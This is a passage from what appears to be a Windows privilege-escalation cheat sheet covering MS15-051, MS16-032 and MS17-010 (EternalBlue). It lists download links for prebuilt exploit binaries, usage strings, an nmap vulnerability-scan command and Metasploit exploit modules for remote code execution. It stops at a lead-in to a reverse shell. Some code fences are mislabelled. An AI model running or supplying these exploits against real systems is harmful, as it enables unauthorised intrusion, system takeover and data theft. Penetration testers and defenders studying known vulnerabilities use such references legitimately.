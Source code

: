 ```powershell
printf("[#] usage: ms15-051 command \n");
printf("[#] eg: ms15-051 \"whoami /all\" \n");

# x32
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/Win32/ms15-051.exe

# x64
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
use exploit/windows/local/ms15_051_client_copy_image
```


### MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)

Check if the patch is installed : `wmic qfe list | findstr "3139914"`

```powershell
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

### MS17-010 (Eternal Blue)

Check the vulnerability with the following nmap script.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17–010 <ip_netblock>
```

Metasploit modules to exploit `EternalRomance/EternalSynergy/EternalChampion`.

```powershell
auxiliary/admin/smb/ms17_010_command          MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/scanner/smb/smb_ms17_010            MS17-010 SMB RCE Detection
exploit/windows/smb/ms17_010_eternalblue      MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/windows/smb/ms17_010_eternalblue_win8 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
exploit/windows/smb/ms17_010_psexec           MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

If you can't use Metasploit and only want a reverse shell.
